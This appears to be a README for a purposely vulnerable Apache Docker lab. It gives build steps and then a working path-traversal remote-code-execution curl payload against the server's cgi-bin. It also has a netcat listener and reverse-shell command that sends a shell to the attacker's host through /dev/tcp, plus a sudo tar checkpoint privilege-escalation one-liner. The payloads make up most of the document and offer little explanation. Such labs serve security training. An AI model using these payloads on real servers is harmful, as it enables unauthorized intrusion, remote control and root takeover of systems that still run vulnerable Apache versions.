 # Build and start the vulnerable docker :

:warning: You have to run the build script with sudo or as root or as a user that is part of the docker group :warning:

```bash
./build.sh
```

# Get the container's IP :

:warning: You have to run the docker commands with sudo or as root or as a user that is part of the docker group :warning:

##  from docker shell

```bash
docker exec -it apache-vuln /bin/bash
ip a
```
##  or from docker inspect

```bash
docker inpect apache-vuln
```

# RCE via Apache server :

```bash
curl -s --path-as-is 'http://<container IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; whoami'
```

# Reverse shell via Apache Server :
##  Step 1 :
  
  On your host, set up a listener :

```bash
nc -nvlp <port>
```

##  Step2 :

  On your host, use curl to execute code on the Apache Server :

```bash
curl -s --path-as-is 'http://<container IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -c "/bin/sh -i >& /dev/tcp/<your host IP>/<your listener port> 0>&1"'
```

# Privesc

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
